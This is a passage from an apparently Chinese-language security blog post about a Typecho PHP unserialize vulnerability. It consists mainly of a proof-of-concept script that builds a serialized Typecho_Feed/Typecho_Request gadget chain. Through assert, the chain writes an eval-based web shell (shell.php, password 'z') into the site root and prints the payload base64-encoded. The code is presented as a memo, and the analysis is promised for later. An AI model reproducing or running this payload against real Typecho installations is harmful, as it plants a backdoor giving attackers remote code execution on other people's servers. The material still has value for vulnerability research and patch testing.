 在网站根目录下生成shell.php，密码为z；

![Typecho_2.png](/assets/images/2017-10-29/367182030.png)

## POC

备忘，之后给出自己的分析；

```
<?php
class Typecho_Feed{
    const RSS2 = "RSS 2.0";

    private $_type;
    private $_version;
    private $_charset;
    private $_lang;
    private $_items = array();

    public function __construct($version, $type = self::RSS2, $charset = 'UTF-8', $lang = 'en'){
        $this->_version = $version;
        $this->_type = $type;
        $this->_charset = $charset;
        $this->_lang = $lang;
    }

    public function addItem(array $item){
        $this->_items[] = $item;
    }
}

class Typecho_Request{
    private $_params = array('screenName' => "file_put_contents('shell.php', '<?php eval(\$_POST[z]);//?>')");
    private $_filter = array('assert');
}

$p1 = new Typecho_Feed(1);
$p2 = new Typecho_Request();
$p1->addItem(array('author' => $p2));
$exp = array('adapter' => $p1, 'prefix' => 'th1s');
echo base64_encode(serialize($exp));
?>
```

